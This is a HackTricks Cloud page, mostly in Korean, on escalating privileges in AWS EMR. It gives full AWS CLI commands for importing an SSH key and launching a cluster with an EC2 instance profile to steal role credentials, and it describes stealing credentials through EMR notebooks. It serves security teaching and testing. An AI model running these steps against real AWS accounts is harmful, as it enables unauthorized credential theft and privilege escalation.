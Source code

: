# AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

더 많은 **EMR에 대한 정보**는 다음에서 확인하세요:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

이 권한을 가진 공격자는 **EC2 역할을 연결하여 새로운 EMR 클러스터를 실행**하고 자격 증명을 훔치려고 시도할 수 있습니다.\
이 작업을 수행하려면 **계정에 가져온 ssh 개인 키를 알아야 하거나** 하나를 가져와야 하며, **마스터 노드에서 포트 22를 열 수 있어야 합니다** (이 작업은 `--ec2-attributes` 내의 `EmrManagedMasterSecurityGroup` 및/또는 `ServiceAccessSecurityGroup` 속성을 사용하여 수행할 수 있습니다).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note how an **EMR role** is specified in `--service-role` and a **ec2 role** is specified in `--ec2-attributes` inside `InstanceProfile`. However, this technique only allows to steal the EC2 role credentials (as you will connect via ssh) but no the EMR IAM Role.

**Potential Impact:** EC2 서비스 역할로의 권한 상승.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

이 권한을 가진 공격자는 **AWS 콘솔**에 접근하여 노트북을 생성하고 IAM 역할을 훔칠 수 있습니다.

{% hint style="danger" %}
내 테스트에서 노트북 인스턴스에 IAM 역할을 연결하더라도 AWS 관리 자격 증명을 훔칠 수 있었고 IAM 역할과 관련된 자격 증명은 훔칠 수 없었습니다.
{% endhint %}

**Potential Impact:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승.

### `elasticmapreduce:OpenEditorInConsole`

이 권한만으로도 공격자는 **Jupyter Notebook에 접근하여** 관련된 IAM 역할을 훔칠 수 있습니다.\
노트북의 URL은 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`입니다.

{% hint style="danger" %}
내 테스트에서 노트북 인스턴스에 IAM 역할을 연결하더라도 AWS 관리 자격 증명을 훔칠 수 있었고 IAM 역할과 관련된 자격 증명은 훔칠 수 없었습니다.
{% endhint %}

**Potential Impact:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter**에서 **팔로우**하세요** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
